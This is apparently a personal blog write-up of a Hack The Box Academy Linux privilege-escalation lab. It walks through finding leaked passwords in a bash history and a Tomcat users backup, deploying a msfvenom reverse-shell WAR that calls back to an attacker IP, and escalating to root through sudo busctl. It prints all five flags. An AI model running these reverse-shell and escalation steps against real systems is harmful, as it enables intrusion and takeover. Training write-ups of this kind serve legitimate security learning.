





Hi there ! Just back from long time chilly :))) Today Im going to pwn **Linux Local Privilege Escalation - Skills Assessment.** Everytime we get initial access to the target we wish to have the highest priviledge as possible so we can do whatever we want !

# Initial access

```powershell
SSH to with user "htb-student" and password "Academy_LLPE!"
```

There is multiple things to do in this lab so first let connect to server and find all locate of the flags

Perform thorough enumeration of the file system as this user.

```powershell
find /  2>/dev/null | grep flag
```

```powershell
/home/htb-student/.config/.flag1.txt
/home/barry/flag2.txt
/proc/sys/kernel/acpi_video_flags
/proc/sys/kernel/sched_domain/cpu0/domain0/flags
/proc/sys/kernel/sched_domain/cpu1/domain0/flags
/proc/kpageflags
/var/log/flag3.txt
/var/lib/tomcat9/flag4.txt

```

Now we able to submit the first flag !

```powershell
htb-student@nix03:~$ cat /home/htb-student/.config/.flag1.txt
LLPE{d0n_ov3rl00k_h1dden_f1les!}

```

**`Submit the contents of flag1.txt`**

> LLPE{d0n_ov3rl00k_h1dden_f1les!}
> 

# Situation Awareness & Priv Escalation

## Local home  user directory

Now in this phase i perform multiple enumeration on the easiest place can be found on server !

And able to find the credential for user barry in his home directory

```powershell
htb-student@nix03:/home/barry$ ls -la
total 40
drwxr-xr-x 5 barry barry 4096 Sep  5  2020 .
drwxr-xr-x 5 root  root  4096 Sep  6  2020 ..
-rwxr-xr-x 1 barry barry  360 Sep  6  2020 .bash_history
-rw-r--r-- 1 barry barry  220 Feb 25  2020 .bash_logout
-rw-r--r-- 1 barry barry 3771 Feb 25  2020 .bashrc
drwx------ 2 barry barry 4096 Sep  5  2020 .cache
-rwx------ 1 barry barry   29 Sep  5  2020 flag2.txt
drwxrwxr-x 3 barry barry 4096 Sep  5  2020 .local
-rw-r--r-- 1 barry barry  807 Feb 25  2020 .profile
drwx------ 2 barry barry 4096 Sep  5  2020 .ssh
htb-student@nix03:/home/barry$ cat .bash_history
cd /home/barry
ls
id
ssh-keygen
mysql -u root -p
tmux new -s barry
cd ~
sshpass -p 'i_l0ve_s3cur1ty!' ssh barry_adm@dmz1.inlanefreight.local
history -d 6
history
history -d 12
history
cd /home/bash
cd /home/barry/
nano .bash_history 
history
exit
history
exit
ls -la
ls -l
history 
history -d 21
history 
exit
id
ls /var/log
history
history -d 28
history
exit
htb-student@nix03:/home/barry$ 
htb-student@nix03:/home/barry$ su barry
Password: 
barry@nix03:~$ ls
flag2.txt
barry@nix03:~$ cat flag2.txt
LLPE{ch3ck_th0se_cmd_l1nes!}
```

**`Submit the contents of flag2.txt`**

> LLPE{ch3ck_th0se_cmd_l1nes!}
> 

Also with the user barry we can read flag3 too !

```powershell
barry@nix03:~$ cat /var/log/flag3.txt
LLPE{h3y_l00k_a_fl@g!}
```

**`Submit the contents of flag3.txt`**

> LLPE{h3y_l00k_a_fl@g!}
> 

## tomcat user

As we already know there is tomcat servlet is running on port 8080 



Perform enumeration on its directory



There is tomcat-user.xml backup file. Read it and we have the creds for login to tomcat web

```powershell

barry@nix03:/etc/tomcat9$ cat  tomcat-users.xml.bak
<?xml version="1.0" encoding="UTF-8"?>
<!--
  Licensed to the Apache Software Foundation (ASF) under one or more
  contributor license agreements.  See the NOTICE file distributed with
  this work for additional information regarding copyright ownership.
  The ASF licenses this file to You under the Apache License, Version 2.0
  (the "License"); you may not use this file except in compliance with
  the License.  You may obtain a copy of the License at

      http://www.apache.org/licenses/LICENSE-2.0

  Unless required by applicable law or agreed to in writing, software
  distributed under the License is distributed on an "AS IS" BASIS,
  WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
  See the License for the specific language governing permissions and
  limitations under the License.
-->
<tomcat-users xmlns="http://tomcat.apache.org/xml"
              xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
              xsi:schemaLocation="http://tomcat.apache.org/xml tomcat-users.xsd"
              version="1.0">
<!--
  NOTE:  By default, no user is included in the "manager-gui" role required
  to operate the "/manager/html" web application.  If you wish to use this app,
  you must define such a user - the username and password are arbitrary. It is
  strongly recommended that you do NOT use one of the users in the commented out
  section below since they are intended for use with the examples web
  application.
-->
<!--
  NOTE:  The sample user and role entries below are intended for use with the
  examples web application. They are wrapped in a comment and thus are ignored
  when reading this file. If you wish to configure these users for use with the
  examples web application, do not forget to remove the <!.. ..> that surrounds
  them. You will also need to set the passwords to something appropriate.
-->

 <role rolename="manager-gui"/>
 <role rolename="manager-script"/>
 <role rolename="manager-jmx"/>
 <role rolename="manager-status"/>
 <role rolename="admin-gui"/>
 <role rolename="admin-script"/>
 <user username="tomcatadm" password="T0mc@t_s3cret_p@ss!" roles="manager-gui, manager-script, manager-jmx, manager-status, admin-gui, admin-script"/>

</tomcat-users>

```



Nice ! Now we can arbitrary upload any file we want so let try privilege escalate to tomcat user

Using metasploit to setup listener 

```powershell
use multi/handler
set payload java/jsp_shell_reverse_tcp
set LPORT 4444
set LHOST 10.10.17.44 
run -j
```

Payload revshell with file type war so we can import it 

```powershell
msfvenom -p java/jsp_shell_reverse_tcp   LHOST=10.10.17.44  -f war  -o backup.war  LPORT=4444
```



Then upload the backup.war and run 

```powershell
http://10.129.133.23:8080/backup
```

Successfull get revshell !



open interact /bin/bash

```powershell
python3 -c 'import pty;pty.spawn("/bin/bash")'  
```

Now we can read the content of flag 4

```powershell
tomcat@nix03:/var/lib/tomcat9$ cat /var/lib/tomcat9/flag4.txt

cat /var/lib/tomcat9/flag4.txt
LLPE{im_th3_m@nag3r_n0w}

```

**`Submit the contents of flag4.txt`** 

> LLPE{im_th3_m@nag3r_n0w}
> 

## Privilege Escalate to rooot with `sudo -l`

Finally perform root escalation. 

We can sudo -l without using password, and found that we can use bin `busctl`. With this we can take advantage of LOL  to spawn root shell

For more : [busctl | GTFOBins](https://gtfobins.org/gtfobins/busctl/#shell)

```powershell
tomcat@nix03:/var/lib/tomcat9$ sudo -l
sudo -l
Matching Defaults entries for tomcat on nix03:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tomcat may run the following commands on nix03:
    (root) NOPASSWD: /usr/bin/busctl
tomcat@nix03:/var/lib/tomcat9$ sudo busctl set-property org.freedesktop.systemd1 /org/freedesktop/systemd1 org.freedesktop.systemd1.Manager LogLevel s debug --address=unixexec:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
<:path=/bin/sh,argv1=-c,argv2='/bin/sh -i 0<&2 1>&2'
# whoami
whoami
root
# cd /root
ls
cd /root
# ls
flag5.txt  snap
# cat flag5.txt
cat flag5.txt
LLPE{0ne_sudo3r_t0_ru13_th3m_@ll!}

```

**`Submit the contents of flag5.txt`**

> LLPE{0ne_sudo3r_t0_ru13_th3m_@ll!}
> 

So it is the end of this Module !

I know this kinda straight forward for the write up... because now i dont have much free time ! well in my opinion this module is much specific and harder than the skill assessment itself.. the logrotate, cronjob reaally a new experiment to me. But im really enjoy doing this !!! 

Well thankyou for reading my blog soo much  <3